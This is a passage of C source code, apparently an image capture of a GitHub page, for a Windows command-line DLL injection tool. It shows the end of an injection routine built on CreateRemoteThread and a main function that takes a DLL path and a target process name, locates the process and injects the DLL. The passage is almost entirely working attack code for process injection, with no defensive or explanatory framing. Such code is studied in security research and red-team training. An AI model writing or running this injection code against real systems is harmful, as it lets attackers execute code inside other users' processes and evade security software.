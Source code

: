 ```c
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("[+] DONE !\n");

	// Clean up
	CloseHandle(hThread);
	return TRUE;
}




int main(int argc, char* argv[]) {
	if (argc < 3) {
		printf("[!] Usage: dll_injection.exe <dll_path> <target_process> \n");
		return -1;
	}

	char* dllPath = argv[1];
	char* targetProcessName = argv[2];

	// Convert target process name to wide char
	WCHAR targetProcess[MAX_PATH];
	MultiByteToWideChar(CP_ACP, 0, targetProcessName, -1, targetProcess, MAX_PATH);

	printf("[i] DLL to inject: \"%s\"\n", dllPath);
	printf("[i] Target process: \"%S\"\n", targetProcess);

	// Resolve full path for the DLL
	char fullPath[MAX_PATH];
	DWORD pathLen = GetFullPathNameA(dllPath, MAX_PATH, fullPath, NULL);
	if (pathLen == 0 || pathLen > MAX_PATH) {
		printf("[!] Could not determine full path for %s. Error: %d\n", dllPath, GetLastError());
		return -1;
	}
	printf("[i] Full DLL path resolved to: \"%s\"\n", fullPath);

	// Convert full DLL path to wide char
	WCHAR wideFullPath[MAX_PATH];
	MultiByteToWideChar(CP_ACP, 0, fullPath, -1, wideFullPath, MAX_PATH);

	DWORD processId;
	HANDLE hProcess;
	if (!GetRemoteProcessHandle(targetProcess, &processId, &hProcess)) {
		printf("[!] Failed to find or access target process \"%S\".\n", targetProcess);
		return -1;
	}
	printf("[i] Process \"%S\" found with PID: %d\n", targetProcess, processId);

	// Pass the wide character DLL path to the injection function
	if (!InjectDllToRemoteProcess(hProcess, wideFullPath)) {
		printf("[!] DLL injection failed.\n");
		CloseHandle(hProcess);
		return -1;
	}

	printf("[+] DLL successfully injected into process \"%S\".\n", targetProcess);
	CloseHandle(hProcess);

	printf("[#] Press <Enter> to exit...\n");
	getchar();
```